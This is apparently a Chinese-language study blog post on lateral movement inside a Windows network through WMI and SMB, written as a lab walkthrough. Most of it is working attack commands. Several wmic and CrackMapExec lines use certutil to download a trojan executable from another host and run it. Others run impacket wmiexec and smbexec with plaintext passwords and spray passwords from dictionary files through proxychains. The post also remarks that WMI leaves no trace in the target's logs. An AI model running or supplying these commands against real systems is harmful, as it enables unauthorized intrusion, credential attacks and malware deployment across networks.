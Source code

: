 ```yaml
---
title: 横向移动-day2-Wmi/Smb篇
date: 2024-03-21 17:26 +0800
categories: [内网,横向移动] 
tags: [横向移动,wmi,smb]
img_path: /img/penetration/
---
```


本次是学习内网横向移动第二天，今天主要介绍利用Wmi以及Smb服务进行横向移动。其中呢，我们不会再过多的重复第一天的全套过程，最主要的是要如何利用这两个服务进行内网的渗透，以及实现Linux+Proxychains+CrackMapExec组合的密码喷洒。
前期准备：已经拿下web服务器的system权限。
## Wmi
WMI是通过==135端口==进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。
该服务，我们主要可以通过windows系统自带的命令或者我们的impacket套件去执行！！！
### 1） wmic
这是一个单执行，无回显的命令服务。
(在CS中执行该命令后，可以下载4444.exe的木马并执行，而后就可以在cs中见到上线！）
```shell
shell wmic /node:192.168.3.32 /user:.\administrator /password:admin!@#45 process call create "cmd.exe /c  certutil -urlcache -split -f http://192.168.3.31/4444.exe c:/4444.exe & c:/4444.exe"
```
![截图](1c4cbdacd8e22b7e372226439166d6da.png)
成功上线！！！
### 2）wmiexec-impacket
这个套件首先需要开启代理转发模式才能把本地的流量转发到目标靶机上！
首先，在web服务器的那个shell上开启代理模式：
![截图](dc50b7bc60b4604393686b40408ec392.png)
![截图](e875598f6d5fb96cf3a4a608be67fcd6.png)
然后开启proxy进行代理：
![截图](a7b7dc76c7103c95dc02ca557d40efc7.png)
![截图](416706c83109d8e5654b7128fa554620.png)
然后，直接使用套件的命令运行即可：
```python
python wmiexec.py ./administrator:admin!@#45@192.168.3.32 "whoami"
```
![截图](b245b00ff7b4b1105b18e101d6460584.png)
## Smb
利用SMB服务可以通过明文或hash传递来远程执行，条件==445服务端口开放。==
### 1）直接采用cs内部自带的插件
在正式移动之前，我们首先要获取到对应的凭据以及目标列表：
![截图](ff5168f45c6ceefc8de576dc30188bdc.png)
然后正式开始使用插件：
选中想要移动到的主机，然后右击选中横向移动
![截图](8c7787ac40e4e9861ab98aa3f8053022.png)
![截图](404f167841d69c41bbb7d683e14e739c.png)
成功上线！
![截图](3d47c0b940b842a35717797477bd4343.png)

### 2）impacket套件
```python
smbexec ./administrator:admin!@#45@192.168.3.32
```
## Linux+Proxychains+CrackMapExec
```markdown
CrackMapExec
Github：https://github.com/Porchetta-Industries/CrackMapExec
官方手册：https://mpgn.gitbook.io/crackmapexec/
部分案例：https://www.freebuf.com/sectool/184573.html
下载对应release，建立socks连接，设置socks代理，配置规则，调用！

Linux Proxychains使用
安装使用：https://blog.csdn.net/qq_53086690/article/details/121779832
代理配置：Proxychains.conf
代理调用：Proxychains 命令

参考链接：
```
{: file='ip信息'}

ubuntu下安装命令：
```shell
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
```
在正式开始之前首先需要设置socks代理转发：
![截图](e6f9c768087315bba849822c47c363d7.png)

然后，在linux上设置proxychains的代理设置：

```shell
vim /etc/proxychains.conf
```

![截图](471d7fa089beb6db4c4de784550bd0c4.png)

使用代理进行域账户的密码喷射：

```shell
proxychains  crackmapexec smb 192.168.3.21-32 -u administrator -p 'Admin12345' -x 'wohami'
```

![截图](55d3a365f8be1f4ae393c162dededfb7.png)

使用代理进行本地账户的密码喷射：

```shell
proxychains  crackmapexec smb 192.168.3.21-32 -u administrator -p 'admin!@#45' -x 'wohami' --local-auth
```

制作txt字典全自动喷射：

```shell
proxychains  crackmapexec smb 192.168.3.21-32 -u user.txt -p pwd.txt -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe c:/4444.exe & c:/4444.exe' --local-auth
proxychains  crackmapexec smb 192.168.3.21-32 -u user.txt -p pwd.txt -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe c:/4444.exe & c:/4444.exe'
```

然后发现主机嘎嘎上线！

![截图](647fb046fbf8c5c475779abe42ef24f0.png)
